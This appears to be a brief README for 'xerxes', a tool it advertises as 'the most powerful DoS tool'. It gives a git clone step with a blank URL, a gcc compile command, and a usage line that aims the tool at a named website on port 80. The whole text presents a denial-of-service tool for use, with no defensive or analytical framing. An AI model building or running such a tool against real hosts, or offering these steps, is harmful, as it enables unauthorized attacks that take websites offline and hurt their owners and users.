 # xerxes
XERXES the most powerful DoS tool
git clone 
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.techchip.net 80
